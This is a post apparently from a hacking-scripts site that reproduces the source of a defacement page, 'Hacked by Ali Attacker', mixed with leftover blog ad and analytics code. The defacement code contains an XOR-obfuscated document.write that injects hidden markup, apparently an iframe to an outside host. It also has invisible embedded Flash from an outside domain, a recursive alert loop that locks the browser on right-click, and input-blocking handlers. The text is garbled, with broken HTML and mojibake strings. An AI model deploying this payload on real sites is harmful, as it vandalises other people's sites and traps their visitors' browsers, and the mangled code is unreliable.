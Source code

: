 ```yaml
---
id: 151
title: Ali Attacker Hack Script
author: admin
layout: post
guid: http://hackingscripts.com/?p=151
permalink: /ali-attacker-hack-script/
categories:
  - Javascript
tags:
  - Javascript
---
```

This script looks incomplete and is not commented at all. It appears to have been coded by &#8216;Ali Attacker&#8217;.


### Ali Attacker Hack Script Source Code

<pre class="brush: jscript; title: ; notranslate" title="">function c_$(id){
        return document.getElementById(id);
    }

			if (parent.frames.length) top.location.href= document.location;

	setTodayDate = function(){
		document.write('?? ???? 16 ??? 1392');
		/*1293979*/	}


		<script>
	try{
		var commentCnt = new Array();
			} catch(e){}

	newComment = function(post_id){
		try{
			window.open('/post/comment/'+post_id,'comment','status=yes,scrollbars=yes,toolbar=no,menubar=no,location=no ,width=480px,height=540px');
		} catch(e){}
	}
	setCommentCnt = function(post_id){
		try{
			if(commentCnt[post_id]){
				document.write(commentCnt[post_id]);
			} else {
				document.write(0);
			}
		} catch(e){}
	}
</script><script>

	statInfo = new Array();
	setStatVar = function(index,value){
		statInfo[index] = value;
	}
	getStatVar = function(index){
		if(statInfo[index]) document.write(statInfo[index]);
	}

	setStatVar('total_post','0');
	setStatVar('total_author','0');
	setStatVar('modify_date','?? ???? 16 ??? 1392');

	setStatVar('today_view','4');
	setStatVar('yesterday_view','1');

	setStatVar('this_month_view','10');
	setStatVar('last_month_view','0');

	setStatVar('total_view','10');
	setStatVar('last_view_date','?? ???? 16 ??? 1392 (18:10)');




</script><script>
	messageForm = function(post_id){
		try{
			window.open('/message','message','status=yes,scrollbars=yes,toolbar=no,menubar=no,location=no ,width=480px,height=550px');
		} catch(e){}
	}
</script><script>
	linkdailyForm = function(){
		try{
			window.open('/linkdaily/new','linkdaily','status=yes,scrollbars=yes,toolbar=no,menubar=no,location=no ,width=500px,height=460px');
		} catch(e){}
	}
</script><script>

var MihanblogShopAdsArray = new Array();

function GetMihanBlogShowAds(){
	if(MihanblogShopAdsArray.length){
		var adsTarget = 'MihanblogShopAds';
		var containerWidth = document.getElementById(adsTarget).offsetWidth;
		if(containerWidth>=200){
			var adsCnt = parseInt(containerWidth / 200) ;
			if(adsCnt>MihanblogShopAdsArray.length){
				adsCnt = MihanblogShopAdsArray.length ;
			}
//			var OneAdsWidth = parseInt(containerWidth / adsCnt) ;
			var OneAdsWidth = containerWidth / adsCnt ;
			if(OneAdsWidth>400){
				OneAdsWidth = 400 ;
			}
			var OutHtml = '';
			var img = '';
			var link = '';
			var title = '';
			var description = '';
			var imgWidth = 70;
			if(OneAdsWidth>230){
				imgWidth = 80;
			}
			if(OneAdsWidth>300){
				imgWidth = 90;
			}
			for(adsOne=0;adsOne<adsCnt;adsOne++){

				img = MihanblogShopAdsArray[adsOne]['img'];
				link = MihanblogShopAdsArray[adsOne]['link'];
				title = MihanblogShopAdsArray[adsOne]['title'];
				description = MihanblogShopAdsArray[adsOne]['description'];

				OutHtml += '<td style="background-color:#FFF;width: '+OneAdsWidth+'px;border:1px solid #f00;margin:0px 0px;font-size:11px;font-family:tahoma;padding:2px;margin:0px 0px;font-size:11px;border: 1px solid BurlyWood; padding: 1px; height: '+(imgWidth+25)+'px;">';

				OutHtml += '	<a href="'+link+'" target="_blank" style="text-decoration:none">';

				OutHtml += '			<div style="width: '+(OneAdsWidth-16)+'px;cursor:pointer;font-size:12px;padding: 4px 1px 4px 7px; white-space: nowrap; text-align: center; font-weight: bold; color: blue;white-space:nowrap;overflow:hidden">';
				OutHtml += 					title;
				OutHtml += '			</div>';
				OutHtml += '			<div style="cursor:pointer;padding: 1px; display: block; float: right; width: '+imgWidth+'px;">';
				OutHtml += '				<img src="'+img+'" style="border:0px;padding:0px;margin:0px;width:'+imgWidth+'px;height:'+imgWidth+'px;">';
				OutHtml += '			</div>';
				OutHtml += '			<div style="padding: 1px; display: block; float: right; width: '+(OneAdsWidth-13-imgWidth)+'px; text-align: right;overflow:hidden">';
				OutHtml += '				<div style="overflow:hidden;cursor:pointer;padding: 2px 3px; line-height: 17px; height: '+(imgWidth-3)+'px; text-align: justify;color:#000;direction:rtl">';
				OutHtml += 						description;
				OutHtml += '				</div>';
				OutHtml += '			</div>';

				OutHtml += '	</a>';

				OutHtml += '</td>';
			}

			var Out = '<table align="center" cellpadding="0" cellspacing="2" style="width:'+(OneAdsWidth*adsCnt)+'px;"><tr>'+OutHtml+'</tr></table>';

			Out = '<div style="text-align:center;padding:0px;margin:3px auto;">'+Out+'</div>';

			document.getElementById(adsTarget).style.height = (imgWidth+35)+'px' ;
			document.getElementById(adsTarget).innerHTML = Out ;
		}
	}
}
</script>

<html lang="en" xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta charset="utf-8" />
    <title> Hacked by Ali Attacker </title>
    <style>
       #frm{
         border:none;
         overflow:no-content;
         position:absolute;
         top:0;
         left:0;
         z-index:-100;
       }
       .wrapper{
          width:100%;
          height:100%;
          background:transparent;
          position:absolute;
          z-index:-99;
          top:0;
          left:0;
       }
       .sheet{
           position:static;
            width:900px;
           height:900px;
           background:rgba(0, 0, 0, 0.80);
           margin:50px auto;
           padding:20px;
       }
    </style>
</head>
<body>
<script>var enkripsi="'02'02'02'02'1Akdpcog'02qpa'1F'00jvvr'1C--`cn{cl,kp-fgom-pf,jvon'00'02qapmnnkle'1F'00lm'00'02jgkejv'1F'00332'07'00'02ukfvj'1F'00322'07'00'02kf'1F'00dpo'00'1G'1A-kdpcog'1G"; teks=""; teksasli="";var panjang;panjang=enkripsi.length;for (i=0;i<panjang;i++){ teks+=String.fromCharCode(enkripsi.charCodeAt(i)^2) }teksasli=unescape(teks);document.write(teksasli);</script>

<html>
<head>
<embed src="http://dl.balyan.ir/swf/03 The Road to Masysaf.swf" type="application/x-shockwave-flash" <="" embed="" height="0" width="0">
<body oncontextmenu='return false;' onkeydown='return false;' onmousedown='return false;'>
<title>MR.VIRUS</title>
<link rel="shortcut icon" href="http://www.balyan.ir/wp-content/uploads/iran1.png" type="image/x-icon">
<head>

<center><embed color="FF0000" width="900" height="50" align="middle" pluginspage="http://www.macromedia.com/go/getflashplayer" type="application/x-shockwave-flash" wmode="transparent" quality="high" src="http://dl.balyan.ir/swf/abc.swf" flashvars= "letter= Hacked by Ali Attacker " labelColor = "FF0000"><center>


<br>
<br>
<img src="http://s5.picofile.com/file/8108439684/hacked.jpg" align="center">
<br>
<script language="JavaScript">
TypingText = function(element, interval, cursor, finishedCallback) {
if((typeof document.getElementById == "undefined") || (typeof element.innerHTML == "undefined")) {
this.running = true; // Never run.
return;
}
this.element = element;
this.finishedCallback = (finishedCallback ? finishedCallback : function() { return; });
this.interval = (typeof interval == "undefined" ? 50 : interval);
this.origText = this.element.innerHTML;
this.unparsedOrigText = this.origText;
this.cursor = (cursor ? cursor : "");
this.currentText = "";
this.currentChar = 0;
this.element.typingText = this;
if(this.element.id == "") this.element.id = "typingtext" + TypingText.currentIndex++;
TypingText.all.push(this);
this.running = false;
this.inTag = false;
this.tagBuffer = "";
this.inHTMLEntity = false;
this.HTMLEntityBuffer = "";
}
TypingText.all = new Array();
TypingText.currentIndex = 0;
TypingText.runAll = function() {
for(var i = 0; i < TypingText.all.length; i++) TypingText.all[i].run();
}
TypingText.prototype.run = function() {
if(this.running) return;
if(typeof this.origText == "undefined") {
setTimeout("document.getElementById('" + this.element.id + "').typingText.run()", this.interval); // We haven't finished loading yet. Have patience.
return;
}
if(this.currentText == "") this.element.innerHTML = "";
// this.origText = this.origText.replace(/<([^<])*>/, ""); // Strip HTML from text.
if(this.currentChar < this.origText.length) {
if(this.origText.charAt(this.currentChar) == "<" && !this.inTag) {
this.tagBuffer = "<";
this.inTag = true;
this.currentChar++;
this.run();
return;
} else if(this.origText.charAt(this.currentChar) == ">" && this.inTag) {
this.tagBuffer += ">";
this.inTag = false;
this.currentText += this.tagBuffer;
this.currentChar++;
this.run();
return;
} else if(this.inTag) {
this.tagBuffer += this.origText.charAt(this.currentChar);
this.currentChar++;
this.run();
return;
} else if(this.origText.charAt(this.currentChar) == "&" && !this.inHTMLEntity) {
this.HTMLEntityBuffer = "&";
this.inHTMLEntity = true;
this.currentChar++;
this.run();
return;
} else if(this.origText.charAt(this.currentChar) == ";" && this.inHTMLEntity) {
this.HTMLEntityBuffer += ";";
this.inHTMLEntity = false;
this.currentText += this.HTMLEntityBuffer;
this.currentChar++;
this.run();
return;
} else if(this.inHTMLEntity) {
this.HTMLEntityBuffer += this.origText.charAt(this.currentChar);
this.currentChar++;
this.run();
return;
} else {
this.currentText += this.origText.charAt(this.currentChar);
}
this.element.innerHTML = this.currentText;
this.element.innerHTML += (this.currentChar < this.origText.length - 1 ? (typeof this.cursor == "function" ? this.cursor(this.currentText) : this.cursor) : "");
this.currentChar++;
setTimeout("document.getElementById('" + this.element.id + "').typingText.run()", this.interval);
} else {
this.currentText = "";
this.currentChar = 0;
this.running = false;
this.finishedCallback();
}
}
</script>
<style>
td{font-family: Annonying kettle; font-size: 9pt; color: red}
a{font-family: Annonying kettle; font-size: 12pt; color: white}
</style><center>
<div id="example1"></div>
<p id="example2">
<font color="green">
<br>Finding Vulnerability..................   Find :)<br>
<b>Bypassing Security...................  & Getting Access...................Defacing...=Done.......</b><br>
<b>You Got Owned By Ali Attacker.......     SORRY ADMIN....... Improve Ur Security............</b><br>
<b>Admin your Security is very  low your Site has been Hacked </b>
    <b>
<font face="courier new" size="3" color="red">
<br>Ali_Attacker@yahoo.com<br>
</font>
<font face="courier new" size="6" color="green" "=""><blink><b>YOUR DATABASE IS SAFE</b></blink></font>
<br><img src="http://dl.balyan.ir/image/yaTAF.gif" align="center">
</p></center>
<script type="text/javascript">
//Define first typing example:
new TypingText(document.getElementById("example1"));
//Define second typing example (use "slashing" cursor at the end):
new TypingText(document.getElementById("example2"), 50, function(i){
var ar = new Array("_"," ","_","_"); return " " + ar[i.length %
ar.length]; });
//Type out examples:
TypingText.runAll();
</script>
<script language="JavaScript" type="text/javascript">
<!--
var rows=1; // must be an odd number
var speed=150; // lower is faster
var reveal=2; // between 0 and 2 only. The higher, the faster the word appears
var effectalign="default" //enter "center" to center it.
var w3c=document.getElementById && !window.opera;;
var ie45=document.all && !window.opera;
var ma_tab, matemp, ma_bod, ma_row, x, y, columns, ma_txt, ma_cho;
var m_coch=new Array();
var m_copo=new Array();
function matrix() {
if (!w3c && !ie45) return
var matrix=(w3c)?document.getElementById("matrix"):document.all["matrix"];
ma_txt=(w3c)?matrix.firstChild.nodeValue:matrix.innerHTML;
ma_txt=" "+ma_txt+" ";
columns=ma_txt.length;
if (w3c) {
while (matrix.childNodes.length) matrix.removeChild(matrix.childNodes[0]);
ma_tab=document.createElement("table");
ma_tab.setAttribute("border", 0);
ma_tab.setAttribute("align", effectalign);
ma_tab.style.backgroundColor="#000000";
ma_bod=document.createElement("tbody");
for (x=0; x<rows; x++) {
ma_row=document.createElement("tr");
for (y=0; y<columns; y++) {
matemp=document.createElement("td");
matemp.setAttribute("id", "Mx"+x+"y"+y);
matemp.className="matrix";
matemp.appendChild(document.createTextNode(String.fromCharCode(160)));
ma_row.appendChild(matemp);
}
ma_bod.appendChild(ma_row);
}
ma_tab.appendChild(ma_bod);
matrix.appendChild(ma_tab);
} else {
ma_tab='<ta'+'ble align="'+effectalign+'" border="0" style="background-color:#000000">';
for (var x=0; x<rows; x++) {
ma_tab+='<t'+'r>';
for (var y=0; y<columns; y++) {
ma_tab+='<t'+'d class="matrix" id="Mx'+x+'y'+y+'">&nbsp;</'+'td>';
}
ma_tab+='</'+'tr>';
}
ma_tab+='</'+'table>';
matrix.innerHTML=ma_tab;
}
ma_cho=ma_txt;
for (x=0; x<columns; x++) {
ma_cho+=String.fromCharCode(32+Math.floor(Math.random()*94));
m_copo[x]=0;
}
ma_bod=setInterval("mytricks()", speed);
}

function mytricks() {
x=0;
for (y=0; y<columns; y++) {
x=x+(m_copo[y]==100);
ma_row=m_copo[y]%100;
if (ma_row && m_copo[y]<100) {
if (ma_row<rows+1) {
if (w3c) {
matemp=document.getElementById("Mx"+(ma_row-1)+"y"+y);
matemp.firstChild.nodeValue=m_coch[y];
}
else {
matemp=document.all["Mx"+(ma_row-1)+"y"+y];
matemp.innerHTML=m_coch[y];
}
matemp.style.color="#33ff66";
matemp.style.fontWeight="bold";
}
if (ma_row>1 && ma_row<rows+2) {
matemp=(w3c)?document.getElementById("Mx"+(ma_row-2)+"y"+y):document.all["Mx"+(ma_row-2)+"y"+y];
matemp.style.fontWeight="normal";
matemp.style.color="#00ff00";
}
if (ma_row>2) {
matemp=(w3c)?document.getElementById("Mx"+(ma_row-3)+"y"+y):document.all["Mx"+(ma_row-3)+"y"+y];
matemp.style.color="#009900";
}
if (ma_row<Math.floor(rows/2)+1) m_copo[y]++;
else if (ma_row==Math.floor(rows/2)+1 && m_coch[y]==ma_txt.charAt(y)) zoomer(y);
else if (ma_row<rows+2) m_copo[y]++;
else if (m_copo[y]<100) m_copo[y]=0;
}
else if (Math.random()>0.9 && m_copo[y]<100) {
m_coch[y]=ma_cho.charAt(Math.floor(Math.random()*ma_cho.length));
m_copo[y]++;
}
}
if (x==columns) clearInterval(ma_bod);
}

function zoomer(ycol) {
var mtmp, mtem, ytmp;
if (m_copo[ycol]==Math.floor(rows/2)+1) {
for (ytmp=0; ytmp<rows; ytmp++) {
if (w3c) {
mtmp=document.getElementById("Mx"+ytmp+"y"+ycol);
mtmp.firstChild.nodeValue=m_coch[ycol];
}
else {
mtmp=document.all["Mx"+ytmp+"y"+ycol];
mtmp.innerHTML=m_coch[ycol];
}
mtmp.style.color="#33ff66";
mtmp.style.fontWeight="bold";
}
if (Math.random()<reveal) {
mtmp=ma_cho.indexOf(ma_txt.charAt(ycol));
ma_cho=ma_cho.substring(0, mtmp)+ma_cho.substring(mtmp+1, ma_cho.length);
}
if (Math.random()<reveal-1) ma_cho=ma_cho.substring(0, ma_cho.length-1);
m_copo[ycol]+=199;
setTimeout("zoomer("+ycol+")", speed);
}
else if (m_copo[ycol]>200) {
if (w3c) {
mtmp=document.getElementById("Mx"+(m_copo[ycol]-201)+"y"+ycol);
mtem=document.getElementById("Mx"+(200+rows-m_copo[ycol]--)+"y"+ycol);
}
else {
mtmp=document.all["Mx"+(m_copo[ycol]-201)+"y"+ycol];
mtem=document.all["Mx"+(200+rows-m_copo[ycol]--)+"y"+ycol];
}
mtmp.style.fontWeight="normal";
mtem.style.fontWeight="normal";
setTimeout("zoomer("+ycol+")", speed);
}
else if (m_copo[ycol]==200) m_copo[ycol]=100+Math.floor(rows/2);
if (m_copo[ycol]>100 && m_copo[ycol]<200) {
if (w3c) {
mtmp=document.getElementById("Mx"+(m_copo[ycol]-101)+"y"+ycol);
mtmp.firstChild.nodeValue=String.fromCharCode(160);
mtem=document.getElementById("Mx"+(100+rows-m_copo[ycol]--)+"y"+ycol);
mtem.firstChild.nodeValue=String.fromCharCode(160);
}
else {
mtmp=document.all["Mx"+(m_copo[ycol]-101)+"y"+ycol];
mtmp.innerHTML=String.fromCharCode(160);
mtem=document.all["Mx"+(100+rows-m_copo[ycol]--)+"y"+ycol];
mtem.innerHTML=String.fromCharCode(160);
}
setTimeout("zoomer("+ycol+")", speed);
}

}
// -->
setTimeout('matrix()', 1);

col=0;
function fadein()
{
document.getElementById("fade1").style.color="rgb(" + col + ",0,0)";
document.getElementById("fade2").style.color="rgb(" + col + ",0,0)";
document.getElementById("fade3").style.color="rgb(" + col + ",0,0)";
document.getElementById("fade4").style.color="rgb(" + col + ",0,0)";
document.getElementById("fade5").style.color="rgb(" + col + ",0,0)";
document.getElementById("fade6").style.color="rgb(" + col + ",0,0)";
col+=5;
if(col<255) setTimeout('fadein()', 1);
if(col==255) setTimeout('fadeout()', 1);
}

function fadeout()
{
document.getElementById("fade1").style.color="rgb(" + col + ",0,0)";
document.getElementById("fade2").style.color="rgb(" + col + ",0,0)";
document.getElementById("fade3").style.color="rgb(" + col + ",0,0)";
document.getElementById("fade4").style.color="rgb(" + col + ",0,0)";
document.getElementById("fade5").style.color="rgb(" + col + ",0,0)";
document.getElementById("fade6").style.color="rgb(" + col + ",0,0)";
col-=5;
if(col>0) setTimeout('fadeout()', 1);
if(col==0) setTimeout('fadein()', 1)

    </div>
</body>
</html><script>
//    setTimeout(function () {
//        GetMihanBlogShowAds();
//    }, 1000);
</script>
<!--NEW SERVER--><!--;)-->

<script type="text/javascript">

    var _gaq = _gaq || [];
    _gaq.push(['_setAccount', 'UA-153829-9']);
    _gaq.push(['_setDomainName', 'mihanblog.com']);
    _gaq.push(['_trackPageview']);

    (function() {
        var ga = document.createElement('script'); ga.type = 'text/javascript'; ga.async = true;
        ga.src = ('https:' == document.location.protocol ? 'https://ssl' : 'http://www') + '.google-analytics.com/ga.js';
        var s = document.getElementsByTagName('script')[0]; s.parentNode.insertBefore(ga, s);
    })();

</script>

<SCRIPT>
farbbibliothek = new Array();
farbbibliothek[0] = new Array("#FF0000","#FF1100","#FF2200","#FF3300","#FF4400","#FF5500","#FF6600","#FF7700","#FF8800","#FF9900","#FFaa00","#FFbb00","#FFcc00","#FFdd00","#FFee00","#FFff00","#FFee00","#FFdd00","#FFcc00","#FFbb00","#FFaa00","#FF9900","#FF8800","#FF7700","#FF6600","#FF5500","#FF4400","#FF3300","#FF2200","#FF1100");
farbbibliothek[1] = new Array("#00FF00","#000000","#00FF00","#00FF00");
farbbibliothek[2] = new Array("#00FF00","#FF0000","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00","#00FF00");
farbbibliothek[3] = new Array("#FF0000","#FF4000","#FF8000","#FFC000","#FFFF00","#C0FF00","#80FF00","#40FF00","#00FF00","#00FF40","#00FF80","#00FFC0","#00FFFF","#00C0FF","#0080FF","#0040FF","#0000FF","#4000FF","#8000FF","#C000FF","#FF00FF","#FF00C0","#FF0080","#FF0040");
farbbibliothek[4] = new Array("#FF0000","#EE0000","#DD0000","#CC0000","#BB0000","#AA0000","#990000","#880000","#770000","#660000","#550000","#440000","#330000","#220000","#110000","#000000","#110000","#220000","#330000","#440000","#550000","#660000","#770000","#880000","#990000","#AA0000","#BB0000","#CC0000","#DD0000","#EE0000");
farbbibliothek[5] = new Array("#000000","#000000","#000000","#FFFFFF","#FFFFFF","#FFFFFF");
farbbibliothek[6] = new Array("#0000FF","#FFFF00");
farben = farbbibliothek[4];
function farbschrift()
{
for(var i=0 ; i<Buchstabe.length; i++)
{
document.all["a"+i].style.color=farben[i];
}
farbverlauf();
}
function string2array(text)
{
Buchstabe = new Array();
while(farben.length<text.length)
{
farben = farben.concat(farben);
}
k=0;
while(k<=text.length)
{
Buchstabe[k] = text.charAt(k);
k++;
}
}
function divserzeugen()
{
for(var i=0 ; i<Buchstabe.length; i++)
{
document.write("<font face='monotype corsiva' size=30><span id='a"+i+"' class='a"+i+"'>"+Buchstabe[i] + "</span></font>");
}
farbschrift();
}
var a=1;
function farbverlauf()
{
for(var i=0 ; i<farben.length; i++)
{
farben[i-1]=farben[i];
}
farben[farben.length-1]=farben[-1];

setTimeout("farbschrift()",30);
}
// Zu Demonstrationszwecken*****************
var farbsatz=1;
function farbtauscher()
{
farben = farbbibliothek[farbsatz];
while(farben.length<text.length)
{
farben = farben.concat(farben);
}
farbsatz=Math.floor(Math.random()*(farbbibliothek.length-0.0001));
}
setInterval("farbtauscher()",5000);
text= "Admin Sorry Your Security Is Low Your site Has Been Hacked  "; //h
string2array(text);
divserzeugen();
//document.write(text);
</SCRIPT>
<br>
<br>
<br>
<img src="http://s5.picofile.com/file/8108441026/co1674.jpg" align="center">
<br>
<marquee
scrollamount="4"
scrolldelay="10"
style="border:0px solid #99FF00;
font-family: B tahoma;
background-color:#FF6600;
font-size:16pt;
color: black"
direction="lifet">
<font color="#CCFF00">

-Hacker Of The Golestan-

</font>

</MARQUEE>







<SCRIPT language=JavaScript>
document.onmousedown=click
var times=0
var times2=10
function click() {
if ((event.button==2) || (event.button==3)) {
if (times>=1) { bye() }
alert("ÏÇÑí ÏÒÏí ãí ˜äí ...¿¿¿   Çíä ˜ÇÑæ ä˜ä ÚÒíÒ Ïá ÈÑÇÏÑ ÖÑÒ ãí ˜äí ...ÇÒ ãä ÝÊä..");
times++ } }
function bye() {
alert("ãä ˜å ÝÊã ˜áí˜ ä˜ä... ÍÇáÇ ÑíÓÊ ˜ä ÓíÓÊãÊ Ñæ  ÊÇÍÇáÊ ÑÝÊå Ôå !");
bye() }
</SCRIPT>

<script language="JavaScript1.2">
function disableselect(e){
return false
}function reEnable(){
return true
}document.onselectstart=new Function ("return false")
if (window.sidebar){
document.onmousedown=disableselect
document.onclick=reEnable
}</script>

<center>
<script>
</pre>
